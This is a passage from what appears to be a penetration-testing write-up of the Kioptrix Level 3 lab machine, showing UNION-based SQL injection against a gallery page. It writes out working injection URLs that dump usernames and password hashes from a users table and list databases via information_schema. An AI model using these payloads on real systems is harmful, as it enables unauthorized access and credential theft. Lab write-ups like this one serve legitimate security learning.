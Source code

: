 So we need to modify our SQLi payload to return the correct number of columns, eventually settling on 6.

`hXXp://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users--`

![image](/assets/kioptrix-level-3-sqli.png)

Great success!

But before we continue, lets see what else we can determine about the target system via SQL injection by modifying our payload.

I'm just going to be presenting the extracted information in text here rather than screenshots because screenshots would take up way too much space.

# [](#header-4)Information Schema

We can extract the names of the databases by slightly altering the select statement.

`hXXp://kioptrix3.com/gallery/gallery.php?id=null+union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--`

